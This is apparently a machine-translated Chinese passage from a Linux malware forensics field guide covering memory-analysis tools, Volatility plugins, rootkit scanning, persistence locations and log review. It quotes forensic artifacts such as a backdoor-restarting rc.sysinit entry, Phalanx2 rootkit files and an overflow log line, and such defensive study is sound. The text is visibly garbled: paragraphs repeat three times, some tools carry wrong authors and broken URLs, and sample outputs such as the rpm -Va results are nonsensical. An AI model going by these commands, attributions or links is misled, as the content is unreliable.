| ☐ 发现的 IP 数据包: | ☐ 发现的 IP 数据包: |

| ☐ 本地 IP 地址: \_\_\_\_\_\_\_\_\_\_ 端口: \_\_\_\_\_\_\_\_\_\_ | ☐ 本地 IP 地址: \_\_\_\_\_\_\_\_\_\_ 端口: \_\_\_\_\_\_\_\_\_\_ |

| ☐ 远程 IP 地址: \_\_\_\_\_\_\_\_\_\_ 端口: \_\_\_\_\_\_\_\_\_\_ | ☐ 远程 IP 地址: \_\_\_\_\_\_\_\_\_\_ 端口: \_\_\_\_\_\_\_\_\_\_ |

| ☐ 远程主机: \_\_\_\_\_\_\_\_\_\_ | ☐ 远程主机: \_\_\_\_\_\_\_\_\_\_ |

| ☐ 协议: | ☐ 协议: |

| ☐ TCP | ☐ TCP |

| ☐ UDP | ☐ UDP |

| ☐ 发现的 IP 数据包: | ☐ 发现的 IP 数据包: |

| ☐ 本地 IP 地址: \_\_\_\_\_\_\_\_\_\_ 端口: \_\_\_\_\_\_\_\_\_\_ | ☐ 本地 IP 地址: \_\_\_\_\_\_\_\_\_\_ 端口: \_\_\_\_\_\_\_\_\_\_ |

| ☐ 远程 IP 地址: \_\_\_\_\_\_\_\_\_\_ 端口: \_\_\_\_\_\_\_\_\_\_ | ☐ 远程 IP 地址: \_\_\_\_\_\_\_\_\_\_ 端口: \_\_\_\_\_\_\_\_\_\_ |

| ☐ 远程主机: \_\_\_\_\_\_\_\_\_\_ | ☐ 远程主机: \_\_\_\_\_\_\_\_\_\_ |

| 网站/URL/电子邮件地址: | |

| --- | --- |

| ☐ 识别出的可疑网站/URL/电子邮件: | ☐ 识别出的可疑网站/URL/电子邮件: |

| ☐ 名称: \_\_\_\_\_\_\_\_\_\_\_ | ☐ 名称: \_\_\_\_\_\_\_\_\_\_\_ |

| ☐ 描述: \_\_\_\_\_\_\_\_\_\_\_ | ☐ 描述: \_\_\_\_\_\_\_\_\_\_\_ |

| ☐ 识别出的可疑网站/URL/电子邮件: | ☐ 识别出的可疑网站/URL/电子邮件: |

| ☐ 名称: \_\_\_\_\_\_\_\_\_\_\_ | ☐ 名称: \_\_\_\_\_\_\_\_\_\_\_ |

| ☐ 描述: \_\_\_\_\_\_\_\_\_\_\_ | ☐ 描述: \_\_\_\_\_\_\_\_\_\_\_ |

## 第 2 章 Linux 内存取证

## 恶意软件取证工具箱

## Linux 系统内存分析工具

在本章中，我们讨论了解释 Linux 系统内存中数据结构的方法，以及提取和分析进程内存的方法。你应该关注并熟悉许多内存分析工具。在本节中，我们将探索这些替代备选工具，并演示它们的功能。本节还可以用作“工具快速参考”或“备忘录”，因为在调查中不可避免会遇到这样的情况：拥有某个特定功能的额外工具是有益的，而在现场响应时，你几乎没有时间研究这些工具。对这些工具进行自己的测试和验证至关重要，以确保它们在你的环境和特定需求下按预期工作。

| 名称 | 作者/发行者 | 页面引用 | 可用 | 描述 |

| :--- | :--- | :--- | :--- | :--- |

| SecondLook | Raytheon Pikewers/SecondLook Forensics | 9 | http://www.secondlookforensics.com | 在专用工具 SecondLook 中开发了高级的 Linux 内存分析能力，它具有命令行和 GUI 版本，以及企业版。 |

这里显示了 SecondLook 的 GUI 界面，警报显示了由于恶意软件导致的内存疑变化：

| 目标分析生成了 54 条警报。点击警报获取更多信息。 |

| 分析 | 警报 | 信息 | 反汇编 | 数据 |

| :--- | :--- | :--- | :--- | :--- |

| 内核 text:data 在 0xffffffa01600 [sys_call_table+0] 不匹配 | | | | |

| 内核 text: 已修改的内存引用 | | | | |

| 内核模块 "vsock": 缺失内存引用 | | | | |

| 内核栈中 2451 (bash) 的非文本内存区域的返回地址: 0xffffffa0905c [shpcp_key_26844 | | | | |

| 内核栈中 2448 (bash) 的非文本内存区域的返回地址: 0xffffffa0905c [shpcp_key_26844 | | | | |

| 内核栈中 2484 (bash) 的非文本内存区域的返回地址: 0xffffffa0905c [shpcp_key_26844 | | | | |

| 内核栈中 2720 (thread) 的非文本内存区域的返回地址: 0xffffffa0905c [shpcp_key_26844 | | | | |

| 内核栈中 2558 (child) 的非文本内存区域的返回地址: 0xffffffa0905c [shpcp_key_26844 | | | | |

| 任务 Xnext (pid 2479) 中的可执行映射不是只读 | | | | |

| 任务 Xnext (pid 2479) 中的匿名可执行映射不是只读 | | | | |

| 任务 Xnext (pid 2479) 中的文件 /usr/share 的可执行映射不是只读 | | | | |

| 系统调用表第 1 条目与参考内核条目不匹配 | p-2.5 不是只读 | | | | |

| 系统调用表第 2 条目与参考内核条目不匹配 | | | | |

| 系统调用表第 4 条目与参考内核条目不匹配 | | | | |

## LINUX 系统恶意软件取证现场指南

名称: Volatility*

页面引用: 9

作者/发行者: Volatile Systems

获取地址: https://www.volatilesystems.com/default/volatility

描述: Volatility 源于该项目并用 Python 编写，由 Aaron Walters 开发。Volatility 最初设计用于检查内存转储，Linux 版本的 Volatility 可用于提取有关进程、网络连接、打开的句柄和其他与系统相关的详细信息。

```python
python volatility/vol.py -f Phalan2.dd --profile=LinuxFedora2x64 linux_pslist
```

## Linux 插件:

- linux_pslist: 从 init_task 符号开始的活动进程，并遍历 task_struct->tasks 链表（排除空隙进程 spacer process）

- linux_psaux: 输出带有额外信息的活动进程

- linux_pstree: 运行中进程的层级关系树

- linux_plist_cache: 来自 kmem_cache 的活动进程（仅支持 SLAB）

- linux_psview: 进程列表的比较

- linux_lsof: 每个活动进程的打开文件描述符

## 进程内存:

- linux_mmap

- linux_proc_maps: 进程内存详情，包括堆和共享库

- linux_dump_map: 使用 -s/-vma 参数将内存范围转储到磁盘

- linux_bash: 从 bash 中恢复历史记录并并某些深度挖掘

## 内核内存和对象:

- linux_lsmod: 已加载的内核模块

- linux_tmpfs: tmpfs 的内容

## Rootkit 检测:

- linux_check_afinfo: 检查网络协议结构体是否被篡改

- linux_check_creds: 检查进程是否共享 'cred' 结构

- linux_check_fop: 检查文件操作结构体是否被篡改

- linux_check_idt: 检查中断描述表 (IDT) 是否被篡改

- linux_check_syscall: 检查系统调用表中的函数钩子 (hooking)

- linux_check_modules: 检查 sysfs 中是否存在内核模块缺失的项。

## 网络:

- linux_arp: ARP 表

- linux_ifconfig: 网络接口详情

- linux_route_cache: 路由表

- linux_netstat: 网络连接

- linux_pkt_queues: 数据包队列

- linux_sk_buff: 缓冲区

## 系统信息

- linux_cpuinfo: CPU 信息

- linux_mesg: 内核日志

- linux_inode: 索引节点

- linux_omem: 内存

- linux_mount: 挂载

- linux_find: 文件查找

- linux_vma_cache: 虚拟内存区域缓存

- linux_slab: SLAB 缓存

- linux_dentry_cache: 目录项缓存

- linux_file: 文件

## 第 2 章 Linux 内存取证 | 相关内容

名称: 

页面引用: 30

作者/发行者: Volatility

获取地址: http://www.security.net/up/stop

描述: Volatility 增长于该项目并使用 Python 编写。Volatility 显示了由于恶意软件的内存映射，在当前目录中。

```bash
# stop -m
```

名称: memfetch

页面引用: 30

作者/发行者: Volatility

获取地址: http://www.volatilesystems.com/the

描述: memfetch 捕获了内存映射。

```bash
# memfetch -p
```

名称: Process Dumper

页面引用: 30

作者/发行者: Volatility

获取地址: http://www.linux.com/soft

描述: Process Dumper 结合 Volatility 使用来转储内存。

```bash
# pd -p
```

名称: gcore

页面引用: 30

作者/发行者: Volatility

获取地址: http://www.linux.com/it

描述: gcore 是一个为 Linux 发行版生成 core 文件的工具。

```bash
# gcore -o
```

名称: pcat

页面引用: 30

作者/发行者: Volatility

获取地址: http://www.forensic/in

描述: pcat 是取证工具的一部分，使用 -m 处理内存。

```bash
# pcat -m
```

此页留空。

## 第 2 章 Linux 内存取证 | 相关内容

## 选择阅读

## 书籍


Malin, C., Case, E. & Aquilina, J. (2008). 恶意软件取证：调查与分析，纽约：Syner。

## 论文

Burdach, M. (2005). 物理内存数字取证。获取自 `http://forensic-net/`.

Burdach, M. (2006). 物理内存中的数字证据。获取自 `http://www.blackhat.com/up`.

Movall, P. (2005). Linux 内存分析 UNIX 技术会议。获取自 `http://www.usenix.org/usenix05/`.

Petroni, N., Alwas, A., Fraser, T. & Arbaugh, W. (2006). FatKit: 用于从易变系统中提取和分析数字取证。Digital Investigation, Vol. 3, No. 4, pp.197–210.

Urrea, J. (2006). Linux 内存取证分析。硕士论文，海军研究生学院，加利福尼亚蒙特雷。获取自 `http://cisr.nps.edu/downloads/06_urrea`.

## 在线资源

Case, A. (2013). Phalanx 2 现：使用 Volatility 分析高级 Linux 工具包。获取自 `http://volatility-labs.blogspot.com/2012/10/phalanx-2-revealed-using-volatility-to-it`.

Honeynet 项目，2011 年取证挑战赛 7——受攻击服务器分析（包含用于分析的 Linux 内存 dump），`http://www.honeynet.org/challenges/2011_7_compromised_server`.

SecondLook Linux 内存转储样本。获取自 `http://secondlookforensics.com/linux-memory-images/`

Tilbury, C. (2013). Linux 内存取证入门。获取自 `http://computer-forensics.sans.org/blog/2013/07/08/getting-started-linux-memory-forensics`.

Volatility: Linux 内存取证。获取自 `https://code.google.com/p/volatility/wiki/LinuxMemoryForensics`.

## 溯后取证

从 Linux 系统中发现并提取恶意软件及相关产物

## 本章解决方案

- Linux 取证分析概述
- 从 Linux 系统中发现和提取恶意软件
- 检查 Linux 文件系统
- 检查 Linux 配置文件
- 关键词搜索
- 对受损 Linux 系统进行取证重建
- 从 Linux 系统中进行高级的恶意软件发现和提取

## 引言

如果说活系统分析可以被看作手术，那么对 Linux 系统的取证检查就可以被看是对受恶意软件影响的计算机进行尸检。与特定恶意软件相关的溯源证据可能存在于受损主机的硬盘的多个位置，包括文件、配置条目、系统日志记录以及相关的日期戳。在 Linux 系统上对此类证据进行取证检查是分析恶意代码的重要部分，它能提供上下文和额外信息，帮助我们解决有关恶意软件事件的重要问题，包括恶意软件是如何被到系统中的、它做了什么，以及涉及哪些远程系统。

本章提供了一种在恶意软件事件中进行取证的可重复方法，增加了多台计算机之间的一致性，并使他人能够评估该过程和结果。采用这种方法，并结合数字调查员必备的批判性思维，可以揭示恶意软件是如何进入系统的信息（即入侵向量），确定恶意软件的功能及其主要目的（例如：密码窃取、数据盗取、远程控制），并检测其他受感染系统。这种取证检查过程既适用于受损主机，也适用于故意感染恶意软件的测试系统，以了解更多关于恶意代码的行为。

## 调查考量

- 过去，在受损计算机的文件系统和配置脚本中发现 Linux 的痕迹相对简单。近期，攻击者开始采用防取证技术来隐藏其活动，或将恶意负载混淆在合法活动中。例如，入侵者可能会回溯恶意文件的 inode 更改时间（ctime）戳，使其与合法系统文件具有相同的值。入侵者还会从合法服务获取横幅（banners）和其他特征，并将其编译成木马版本，使其与合法版本尽可能相似。因此，数字调查员应警惕受损系统上的误导信息。
- 现代恶意软件的设计目的是在受损主机上留下痕迹，并在内存中存储更多信息而非磁盘。一种系统方法的取证检查方法，从所有角度仔细观察系统，可以增加发现入侵者未能隐藏的足迹的概率。

> 分析提示
>
> 系统管理与取证
>
> Linux 系统的系统管理员通常非常有知识，当他们发现系统中存在恶意软件时，他们拥有足够的系统知识，可以开始修复问题。然而，通过编辑或移动文件来“修复”问题会更改证据，导致难以重建与恶意软件事件相关的活动。因此，为了避免事态恶化，在系统管理员进行任何更改之前，应该先获取受损系统的取证副本。

## LINUX 取证分析概述

在获取受损系统的取证副本后，采用一致的取证检查方法来提取与恶意软件事件相关的最大信息。

Linux 计算机的硬盘可能在多个位置和形式中包含恶意软件痕迹，包括恶意文件、配置脚本、日志文件、Web 浏览器历史，以及安装和执行的残留（如系统日志和命令历史）。此外，对受损 Linux 计算机进行取证检查可以揭示诸如删除篡改等操作。这些信息中的部分带有相关的日期时间戳，对于确定初始入侵发生的时间以及随后发生了什么非常有用。以下通用方法旨在提取与恶意软件事件相关的最多的信息：

- 搜索已知恶意软件
- 调查已安装的程序
- 检查可执行文件
- 检查服务、模块和自动启动控制
- 检查计划任务
- 检查日志（系统日志、反病毒日志、Web 浏览器历史等）
- 检查用户账户
- 检查文件系统
- 检查配置文件
- 针对与恶意软件事件相关的特定已知细节进行关键词搜索。有用的关键词可能来自其他形式的分析，包括内存取证和对恶意软件本身的分析。
- 收集可用元数据，包括文件系统时间戳、配置文件的修改时间、电子邮件、Web 浏览器历史条目、系统日志以及由反病毒、崩溃转储监控和补丁管理程序创建的其他日志。使用这些信息确定恶意软件事件发生的时间以及对系统还做了哪些操作，最终生成事件时间轴。
- 寻找常见的防取证指标，包括文件系统时间戳分配、日志篡改和日志删除。
- 寻找可能涉及的其他系统的链接。
- 寻找不应出现在系统上的数据，例如装满非法材料的目录和从其他组织盗取的软件。

这些目标作为指南，而非执行 Linux 取证分析的检查清单。没有一种单一方法可以解决所有情况，且某些目标在特定情况下可能不适用。此外，具体实现取决于所使用的工具和涉及的恶意软件类型。某些恶意软件可能会在 Linux 计算机新颖或意料之外的地方留下痕迹，包括 BIOS 或固件中。最终，调查的成功取决于数字调查员应用数字取证技术并适应新挑战的能力。

> 分析提示
>
> 关联关键发现
>
> 如前几章节所述，了解事件的时间段以及观察到哪些恶意软件证据，可以帮助数字调查员制定策略，在受损计算机中搜索相关证据。因此，在对受损计算机进行取证分析之前，建议查看第 1 章中“实地调查问题”中的所有信息，以避免徒劳无功和错过机会。来自其他数据源（如内存转储和网络日志）的发现也可以帮助取证分析（例如：受损计算机正在向一个俄罗斯 IP 地址发送数据包，提供了一个在给定时间范围内搜索的 IP 地址）。同样，后续章节涵盖的静态和动态分析结果也可以指导对受损计算机的取证分析。因此，对一个恶意软件样本的分析可能会导致对受损主机的进一步取证检查，这需要进一步的分析；这种循环分析最终会导致对事件的全面重建。如果在对受损系统的取证检查中发现了新的恶意活动痕迹，以便于取证分析的方式将其记录非常重要。一种有效的方法是将新发现插入到事件时间轴中，随着取证分析的推进逐渐扩展。这在处理多台受损计算机时特别有用。通过为所有系统生成单一时间轴，取证分析师更容易观察到之间的关系和缺失。

# 第3章 事后法证分析



图 3.1—使用 The Sleuth Kit Autopsy GUI 检测的 Linux 系统

- 检查 Linux 系统中可能发现恶意软件痕迹的所有区域至关重要，即使在快速检查几个地方时已经发现了明显的感染迹象。计算机上可能存在多种类型的恶意软件，更明显的感染迹象可能作为一种“烟雾弹”，分散你对更细微入侵痕迹的注意力。保持详尽的方法，并将其他信息源（例如：初始事件报告、网络日志）与系统上的痕迹相关起来，可以减少细微项目被忽略的风险。在取证检查中，没有任何方法或工具可以满足所有需求。为了避免错误和错失机会，有必要比较多种工具的结果，采用不同的分析技术并手动验证重要的发现。

除了使用取证工具外，还将将取证副本挂载为逻辑卷以支持额外的分析。

- 尽管取证工具可以支持复杂的分析，但它们无法解决与恶意软件事件相关的所有问题。例如，在受感染系统上运行防病毒软件和 rootkit 检测工具以发现所有连接，是检查受感染主机的重要步骤。图 3.2 显示了使用环回接口来挂载取证副本，使其可以在取证检查系统上作为逻辑卷进行访问，而不会更改原始的证据数据。

```bash
#### mount -o loop,ro,noatime,noexec adore-sda5.dd /mnt/examine
OR
#### losetup -r /dev/loop1 adore-sda5.dd
#### mount /dev/loop1 /mnt/examine -o loop,ro,noatime,noexec
#### ls /mnt/examine
bin home lib misc opt root tftpboot usr
boot etc initrrd lost+found mnt proc sbin tmp var
```

图 3.2-用于挂载取证副本的 Linux 环回接口

- 本章末尾的工具箱部分中将讨论其他如 FTK Im、EnCase 模块和 Daemon Tools (`www.daemon-tools.cc`) 等用于挂载取证副本的额外工具。

> 分析提示
>
> 信任但验证
>
> 当通过 Linux 环回接口或任何其他方法挂载取证副本时，建议进行测试运行，以确认其不会更改取证副本。这种验证过程可以简单为：在挂载文件系统之前和执行复制文件等简单操作之后，比较取证副本的 MD5 值。某些 Linux 版本或某些挂载方法可能无法防止更改，特别是当以 root 身份运行进程时。

## Linux 系统中恶意软件的发现与提取

- 采用系统的方法检查受感染系统中最可能包含恶意软件安装痕迹的区域，可以增加发现所有入侵痕迹的概率，特别是结合第 5 章和第 6 章涵盖的静态和动态分析反馈进行。

## 搜索已知恶意软件

- 使用已知恶意软件的特征在受感染计算机的文件系统中搜索相同或相似的项目。

许多入侵者会轻松使用可识别的程序，如 rootkits、按键记录程序、嗅探器和反取证工具（例如：`touch2`、`shshniff`、`ssgrab`）。在受感染计算机的取证副本上定位已知恶意软件有多种方法。

- *哈希值和文件特征*：在受感染系统的取证副本中搜索与已知恶意软件匹配的哈希值，可以识别具有相同数据但名称不同的文件。除了使用 NSRL 等哈希数据库外，识别恶意代码的方法方法是寻找与系统已知良好配置的偏差。某些 Linux 系统具有验证许多已安装组件完整性的功能，为识别异常或位置错误的文件提供了有效方法。例如，Linux 上的 `rpm -Va` 用于验证所有使用 RedHat Package Manager 安装的包。例如，在 Tornkit 场景中，该验证过程的结果如图 3.3 所示，显示了二进制文件在大小 (S)、模式 (M) 和 MD5 (5) 上与预期不符。这些二进制文件在用户 (U)、组 (G) 和时间 (T) 上也存在差异。

```bash
#### rpm -Va
/bin/ls ...S....5.5.5.5.5.5.5.5.5.5.5.5.5.5.5.5.5.5.5..T
/bin/bash ...M5.5.5.5.5.5.5.5.5.5.5.5.5.5.5.5.5.5.5..U
```

图 3.3-显示文件不匹配的 RPM 验证结果

- * Rootkit 检测器*：已开发了 `rkhunter` 和 `chrootkit` 等工具来扫描恶意软件。这些工具中的许多可以在挂载的卷上运行（如图 3.4 所示），但可以使用 `--db` 指定数据库。

```bash
#### rkhunter --dbpath=/root/rkhunter.db --check
#### chrootkit /mnt/examine
```

图 3.4-使用 rkhunter 和 chrootkit 扫描目标

- *防病毒*：使用如 ClamAV（病毒和恶意软件检测套件）等防病毒软件可以识别恶意软件。通过 rkh 和 chrootkit 发现的恶意软件。

```bash
#### clamscan -d /examination -i -l clamscan.log
```

> 分析提示
>
> >> 现有安全日志
>
> 鉴于监控软件的普及，建议检查由防病毒软件或其他在受感染系统中运行的程序创建的任何日志以识别恶意软件。许多防病毒程序具有日志和隔离功能，可以提供有关检测到的恶意软件的信息。当系统运行 Tripwire 或其他系统完整性检查工具来检测更改时，可能会存在每日报告，显示在恶意软件事件期间哪些文件被添加、修改和删除。

- **关键词**：搜索恶意软件中常见的 IRC 命令和其他特征，以及在数字调查期间发现的任何特征（例如：网络日志中涉及的 IP 地址），可能会发现系统上的恶意文件。核心系统组件中的字符串可以揭示它们已被入侵者植入了木马。例如，图 3.6 显示了来自受感染系统的共享库。

## Linux 系统恶意软件取证指南

通过具有名为 `proc_hackinit` 和 `proc_istrojan`、`fp_hack`、`"hack"` 以及 `proc_childofhiden` 的异常函数，这表明在调查恶意软件感染时，“trojan（木马）”、“hack（黑客）”和“hidden（隐藏）”可能是有关键词。

```
from_getgridbad_user_access_length_openproc_opendircloseprocclosid.
freeproc_status_stat2proc_scanfstat2proc_stratch_stat2proc_nulls2ep_for_se
like_proc_readproc_hackroot-xor_buf-freeproc
if-getpid-lockUpid-readproc-freetab-list_signals-start-
out_put-get_status2-update-exit-iseek-Hertz-4_cpu_numb
eradvload-manenv-read_total_markprops_version_display_version_sprint_unit
ime_login_time_uptime_proc_name_proc
c_add_pidsnense-pids_proc_hackroot_xor_buf_h_tmp_fp_hack_strmp_fgets
hack_list_strtop_proc_childofhiden_lib.so.6_addrk_corr__en
vviron_atet_edata__bss_start_endlibproc.2.0.6_GLIBC_2.1_GLIBC_
```

图 3.6 - 从具有异常函数名的木马化共享库（`/lib/proc.so.2.0`）中提取的内容

## 调查注意事项

- 某些恶意软件会在加载到内存后删除磁盘上的可执行文件。因此，除了扫描本地文件外，提取分区（swap partition）和未分配空间的所有可执行文件也是值得的，以便使用杀毒软件进行扫描，特别是当恶意软件被入侵者（或运行在受感染系统上的杀毒软件）删除时。
- 某些恶意软件专门设计用于规避哈希值、反杀病毒 rootkit 检测软件或其他相似特征的检测。杀病毒扫描或哈希分析中缺乏证据，不应被解释为系统上没有恶意软件。例如，Phalanx2 rootkit 定期更改其可执行文件的名称，并将组件和 TTY 嗅探器日志存储在命名目录中。例如，图 3.7 所示的 `/etc/khud.p2` 目录包含与 Phalanx2 rootkit 相关的文件。然而，在 Phalanx2 的后续版本中，rootkit 的每个部分和隐藏目录都可能会发生，包括文件的位置和名称。

| -rw-r--r-- root root | 1356 Jul 24 19:58 | .p2rc |

| -rwxr-xr-x root root | 56102 Jul 24 19:58 | .phalanx2* |

| -rwxr-xr-xr root root | 7637 Jul 24 15:04 | .sniff* |

| -rw-r--r-- root root | 53746 Jul 24 20:56 | sshgrab.py |

图 3.7 - 位于隐藏目录中的 Phalanx2 rootkit 和 TTY 嗅探器组件

> 7 `http://hep.uchicago.edu/admin/report_0728088.html`.

## 章节 | 3 事后取证

- 鉴于入侵者可以使木马程序看起来与最初安装在受感染系统上的合法程序非常相似，建议将 SSH 等关键应用程序与从可信源获得的原始包进行比较。受感染系统上 SSH 二进制文件的 MD5 哈希值与相同版本的可信分发版文件哈希值之间的任何差异都值得进一步调查。
- 如果存在受感染系统的备份，则可以使用它们来创建系统在不同时间点的自定义哈希集。这种自定义哈希集可以用于确定自备份创建以来添加或更改了哪些文件。在一种情况下，入侵者使木马化的 SSH 包变得与原始合法包无法区分，这使得有必要与备份中的文件进行哈希比较。这种比较还帮助缩小入侵的时间范围，因为木马化文件存在于 2 月的备份中，但不存在于早之前的 1 月备份中。
- 恶意软件常见特征的关键词搜索也可能触发杀病毒定义文件，导致误报。

## 调查已安装程序和潜在的可疑可执行文件

检查安装在受感染系统上的程序，查找是否存在潜在的恶意应用程序。


调查安装在受感染计算机上的程序和可执行文件的名称及安装日期，可能会发现可疑程序，以及可用于获取远程访问或便利数据窃取的合法程序。

- 此过程不需要对每个程序进行深度分析。相反，要寻找意料之外、可疑或在事件发生前后安装的项目。
- 许多 Linux 系统应用程序以“包”的形式分发，实现了自动化安装。基于 Debian 的系统，`/var/lib/dpkg/status` 文件包含已安装包的详细信息，`/var/log/dpkg.log` 文件记录了包安装的信息。例如，Ubuntu 系统上的 `dpkg.log` 文件中的条目显示 `nmap` 已安装；在 RedHat 相关的 Linux 发行版上，使用 `rpm -qa --root=/mntpath/var/lib/rpm` 命令列出目标系统中 RPM 数据库的内容。

## Linux 系统恶意软件取证现场指南

```
tail -15 /mntpath/var/lib/rpm
2012-06-12 14:48:22 install
2012-06-12 14:48:22 unpacked
2012-06-12 14:48:22 status
2012-06-12 14:48:22 half-installed
2012-06-12 14:48:22 unpacked
2012-06-12 14:48:22 triggers
2012-06-12 14:48:22 pending-db
2012-06-12 14:48:22 config
2012-06-12 14:48:22 config
2012-06-12 14:48:22 half-configured
2012-06-12 14:48:22 installed
2012-06-12 14:48:22 config
```

图 3.8 - 显示安装恶意程序（`nmap`）的日志记录（`/var/log/dpkg`）

- 并非所有程序都能通过上述命令列出，因为入侵者可能会将执行文件放在意想不到的位置。因此，有必要寻找与恶意软件事件时间一致的最近安装程序，或利用调查其他部分的线索将注意力集中在潜在的可疑应用程序上。此外，在用户目录和其他通常不包含可执行文件的常用访问区域中查找可执行文件。
- 安装在计算机上的合法程序也可能在恶意软件事件中发挥作用。例如，安装在系统上的 PGP 或远程桌面程序（如 X）在某些环境中可能是正常的，其可用性可能允许入侵者将其用于恶意目的，例如在窃取敏感信息之前进行加密。与受害者组织协调可以帮助确定这些是典型应用程序。尽管如此，请记住它们可能会被入侵者滥用，对相关日志的检查可能会很有成效。

### 分析提示

寻找最近安装或位置异常的可执行文件

并非所有程序都能通过上述命令列出，因为入侵者可能会将执行文件放在意想不到的位置。

## 检查服务、模块、自启动位置和计划任务

在受控的系统的各种启动位置中查找恶意软件的引用内容，以确定恶意软件在 Linux 系统重启后是如何保持运行的。

为了在重启后保持运行，恶意软件通常使用各种启动方法中提供的持久化机制启动，包括服务、驱动程序、计划任务和其他启动位置。

- 计划任务：某些恶意软件使用 Linux 的 cron 任务调度器（`cronjob scheduler`）定期执行并并在系统上维持持久化。因此，在 `/var/spool/cron/crontabs` 和 `/var/spool/cron/atjobs` 配置中查找被计划执行的恶意代码至关重要。
- 服务：恶意软件将自己固根为一个新的、未经授权的服务是非常常见的现象。Linux 有许多脚本用于在计算机启动时启动服务。初始化启动脚本 `/etc/init.d` 调用其他脚本，如 `rc.sysinit` 以及 `/etc/rc.d/` 目录（或较旧版本中的 `/etc/rc/`）下的各种脚本。在其他 Linux 版本（如 Debian）中，启动脚本存储在 `/etc/init.d/` 目录中。此外，根据 Linux 版本的不同，某些常用会在 `/etc/inetd` 或 `/etc/xinetd/` 中启用。数字调查人员应检查这些每个启动脚本是否存在异常条目。例如，在一次入侵中，每当受损系统重启时，通过 `/etc/rc.d/rc.sysinit` 系统文件末尾图 3.10 中的条目，后门就会重启。

```
Xntps (NTPv3 daemon) startup..
/usr/sbin/xntps -q
#### Xntps (NTPv3 daemon) check..
/usr/sbin/xntps 1->/dev/null
```

图 3.10 `/etc/rc.d/rc.sysinit` 文件中的恶意条目——重启时启动后门

`Phalanx2` rootkit 隐藏在 `/etc/rc.d/` 目录下的单独启动脚本中，该脚本与存储 rootkit 组件的隐藏目录具有相同的随机生成名称。请注意

## 第 3 章：事后取证

`Phalanx2` 还会向系统上的用户隐藏启动脚本，使得对文件系统进行取证检查成为恶意软件调查的重要部分。

- 内核模块：在 Linux 系统上，恶意软件软件包通常使用内核模块作为 rootkit 组件。内核模块在系统启动时，根据 `/lib/modules/uname -r` 和 `/etc/modprobe.d` 目录以及 `/etc/modprobe.conf` 文件中的配置信息加载。应该检查与恶意软件相关的区域。
- 自启动位置：Linux 使用多个在用户登录系统时自动启动可执行文件的配置文件，这些可能包含恶意软件的痕迹。`/etc/profile.d` 目录中的项以及 `/etc/profile` 和 `/.bashrc` 文件在任何用户账户登录时执行，可能对恶意软件研究感兴趣。此外，每个用户账户都有独立的配置文件（`~/.bashrc`、`~/.bash_profile` 和 `~/.config/autostart`），它们可能包含在特定用户账户登录系统时执行恶意软件的条目。

## 调查考虑

- 检查启动脚本中指定的所有程序，以验证它们是正确的且没有被木马程序替换。
- 入侵者有时会启用之前被禁用的服务，因此检查应该被禁用的合法服务也很重要。

## 检查日志

- 在受损系统上的所有可用日志文件中查找恶意执行的痕迹以及相关的活动，例如创建新服务。

Linux 系统上的主日志通常称为 `messages` 或 `syslog`，安全日志记录特定于安全的事件。某些 Linux 系统还配置了审计子系统（例如 SELinux），用于记录特定事件，如配置文件的更改。这些日志的详细程度取决于特定机器上是如何配置日志记录的。

- 系统日志：记录在系统日志和安全日志中的登录事件（包括通过网络登录）可以揭示恶意软件或入侵者在特定时间何时通过给定账户访问受损系统。在恶意软件感染时间点周围的其它事件可以在系统日志中捕获，包括事件发生期间创建的新服务或新账户。大多数 Linux 日志是纯文本格式的，可以使用多种工具进行搜索，包括 `grep` 和能够过滤特定类型事件的 `Splunk`。

某些攻击会在日志中创建独特的模式，这可能揭示攻击向量。例如，缓冲区溢出攻击可能会导致产生带有长度输入字符串的日志条目，如 `messages` 日志中的图 3.1 所示。

```
Apr 07:47:26 localhost SEVER[15651]: Dispatch input: bad request line
'DB'A6;y0'A6;y0'A6;y0000000000000000000000000000000000000000000000000000000000000000000000

```

## 恶意软件取证指南——LINUX 系统

某些攻击会在日志中创建独特的模式，可能揭示攻击向量。例如，缓冲区溢出攻击可能会产生许多带有长度输入字符串的日志条目，如 `messages` 日志中的图 3.1 所示。

```
Apr 07:47:26 localhost SEVER[15651]: Dispatch input: bad request line
'DB'A6;y0'A6;y0'A6;y0000000000000000000000000000000000000000000000000000000000000000000000

```

图 3.1——日志条目显示针对 `/bin/sh` 的溢出攻击

某些攻击会在日志中创建独特的模式，可能揭示攻击向量。例如，缓冲区溢出攻击可能会产生许多带有长度输入字符串的日志条目，如 `messages` 日志中的图 3.1 所示。

```
Apr 07:47:26 localhost SEVER[15651]: Dispatch input: bad request line
'DB'A6;y0'A6;y0'A6;y0000000000000000000000000000000000000000000000000000000000000000000000

```

`Phalanx2` rootkit 隐藏在 `/etc/rc.d/` 目录下的单独启动脚本中，与存储 rootkit 组件的隐藏目录具有相同的随机生成名称。请注意

`Phalanx2` 还会向系统上的用户隐藏启动脚本，使得对文件系统进行取证检查成为恶意软件调查的重要部分。

- 内核模块：在 Linux 系统上，恶意软件软件包通常使用内核模块作为 rootkit 组件。内核模块在系统启动时，根据 `/lib/modules/uname -r` 和 `/etc/modprobe.d` 目录以及 `/etc/modprobe.conf` 文件中的配置信息加载。应该检查与恶意软件相关的区域。
- 自启动位置：Linux 使用多个在用户登录系统时自动启动可执行文件的配置文件，这些可能包含恶意软件的痕迹。`/etc/profile.d` 目录中的项以及 `/etc/profile` 和 `/.bashrc` 文件在任何用户账户登录时执行，可能对恶意软件研究感兴趣。此外，每个用户账户都有独立的配置文件（`~/.bashrc`、`~/.bash_profile` 和 `~/.config/autostart`），它们可能包含在特定用户账户登录系统时执行恶意软件的条目。

## 调查考虑

- 检查启动脚本中指定的所有程序，以验证它们是正确的且没有被木马程序替换。
- 入侵者有时会启用之前被禁用的服务，因此检查应该被禁用的合法服务也很重要。

## 检查日志

- 在受损系统上的所有可用日志文件中查找恶意执行的痕迹以及相关的活动，例如创建新服务。

